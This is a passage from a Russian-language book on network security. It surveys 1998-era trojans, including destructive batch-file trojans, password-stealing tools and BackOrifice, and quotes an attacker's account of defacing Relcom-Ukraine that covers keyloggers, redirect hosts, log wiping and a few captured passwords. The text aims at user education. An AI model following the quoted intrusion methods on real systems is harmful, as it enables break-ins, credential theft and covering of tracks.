очередь, конечно, Сеть представляет собой идеальное средство распространения такого рода программ. Рядовой пользователь не слишком размышляет перед тем, как открыть полученный по почте документ MS Word или как скачать с сервера бесплатных программ очередное украшение для рабочего стола. В последнее время люди, наученные горьким опытом, становятся более осторожными, но общая картина по-прежнему безрадостная. 1998-й год можно смело назвать годом "троянцев". Конечно, атаки такого рода происходили и раньше, техника небольшой модификации кода, приводящая к возможности захвата хоста, была очень популярной в UNIX-системах, но подобных массовых явлений история не помнит. Год начался со скромных поделок, представляющих собой обычные пакетные файлы, сжатые с помощью WinZip в самораспаковывающиеся архивы. Иногда фантазии авторов хватало на преобразование bat-файлов в com, внутри же, как правило, были всевозможные комбинации из команд format, deltree и т.п. Чуть позже были освоены конструкции, включающие в себя программы типа pwlview, предназначенные для извлечения из pwl-файлов имен и паролей для доступа к Internet, а также средства для отправки полученных результатов на некоторый адрес. Разумеется, чтобы заставить пользователя запустить это изделие, придумывались всевозможные приманки. Почетные места в этом ряду занимают "крякер интернета", позволяющий получить заветный бесплатный доступ у любого провайдера, всевозможные 3dfx-эмуляторы и icq-ускорители, а также личные письма от компании Microsoft, в знак большой признательности присылающей лично вам последние заплатки, исправляющие очень опасную брешь в системе. Самым же ярким событием года стало августовское явление миру BackOrifice. Эта программа - основоположник нового поколения "троянцев", количество которых на данный момент исчисляется десятками (к радости пользователей NT, большинство из них в этой ОС функционировать не может). Фактически она представляет собой средство удаленного администрирования и состоит из двух частей - сервера и клиента. До сих пор все вполне прилично и ничем не отличается от того же PCAnywhere. Однако поведение сервера принципиально иное: после запуска он тихо добавляет себя в раздел реестра, отвечающий за автоматическую загрузку приложений при старте системы, и начинает ждать соединения на определенном порту. Соединившись с сервером при помощи клиента, с серверным компьютером можно делать практически что угодно: получать список процессов, запускать/удалять процессы, копировать/удалять файлы, каталоги, перенаправлять входящие пакеты на другие адреса, работать с реестром, выводить диалоговые окна, блокировать систему. Одним словом, машина оказывается под полным контролем. Появление BackOrifice стало несомненным подарком антивирусной индустрии. С тех пор сообщения о выходе очередной вариации на тему BO с последующими победными реляциями антивирусных компаний о появлении противоядия поступают с удивительным постоянством. С другой стороны, накатившая волна "троянцев" привлекла повышенное внимание к теме сетевой безопасности и поставила на повестку дня вопрос о необходимости хотя бы минимального просвещения пользователей. Тем более что жертвами BO порой становились не только пользователи, но и целые системы, включая Web-серверы. Так, прошлогодний взлом Relcom-Ukraine был осуществлен именно с помощью BO, внедренного всего лишь на одну машину в офисе провайдера, причем даже не самими взломщиками (рис. 10.4). Позволим себе процитировать фрагмент описания дальнейших событий (полностью текст статьи доступен на http://www.hackzone.ru/articles/relcom.html):
"Я посоветовался со своим "коллегой", и мы решили пока просто понаблюдать за тем, как работает первый украинский провайдер, чужой опыт всегда полезен...
Кейлоги (от англ. "key log" - программа, записывающая все нажатия на клавиатуре. - Примеч. авторов) велись круглосуточно практически на всех машинах, а потом мы выкачивали их, пользуясь двумя редиректами (от англ. "redirect" - промежуточный хост, используемый для сокрытия истинного адреса взломщика. - Примеч. авторов). Кстати, устанавливать редиректы мне просто нравится, и, как показывает практика, в том режиме, в котором мы работаем, найти нас невозможно. Много раз наши кейлоги регистрировали смены паролей. Самый простой пароль имел 5 символов (User:alesha, passw:mzo.5), а стандартные включали по 8 - 9 символов (Se05WebMr, NiaTwThly, EpK0Qw33). Немного посовещавшись, мы приняли решение всего лишь поменять WWW - хоть моральное удовлетворение получить. Здесь нас поджидали некоторые трудности. Во-первых, машина ultra.ts.kiev.ua (на ней хранится WWW) оказалась уж очень хорошо защищена. Нам пришлось установить редирект на офисной машине с романтичным названием Olways для входа на нее телнетом.
Но выход мы нашли. В субботу утром мы, пользуясь редиректами, закачали в один сильно захламленный инкаминг (от англ. "incoming" - каталог для записи на ftp. - Примеч. авторов) забытой богом ФТП файлы с нашей страничкой. Затем, используя двойной редирект, зашли сначала телнетом на машину uacom.ts.kiev.ua (дозвоночный сервер), проверили пароли к главному серверу.
Когда мы зашли на ultra.ts.kiev.ua, то, запустив ftp-клиент, повытягивали наши заготовки пока что в каталог zz. Ну а затем уже одному не составляло труда менять WWW, пока другой чистил логи (от англ. "log" - файлы регистрации. - Примеч. авторов) под другим паролем (кстати, root там висит как пользователь постоянно).
Вот и все".
 Рис. 10.4. Подмененная страница Relcom-Ukraine Не стояли на месте и авторы вирусов, чья деятельность на некоторое время ушла в тень гривастых собратьев. Последние достижения - вирус, заражающий html-файлы (реализованный на VBScript и использующий ActiveX-объекты), и почтовый червь, размножающийся путем присоединения своего исполняемого модуля ко всем почтовым отправлениям. Опасность заражения вирусами и "троянцами" вполне реальна, и с этой угрозой приходится иметь дело всем пользователям Сети. Лучший способ борьбы с вирусами - не допустить их попадания в вашу систему, и хотя авторы не верят, что можно заставить всех пользователей отказаться от загрузки файлов с неизвестных сайтов и от неизвестных людей или хотя бы проверять их антивирусами, хочется надеяться на победу просвещения. Будьте бдительны!
|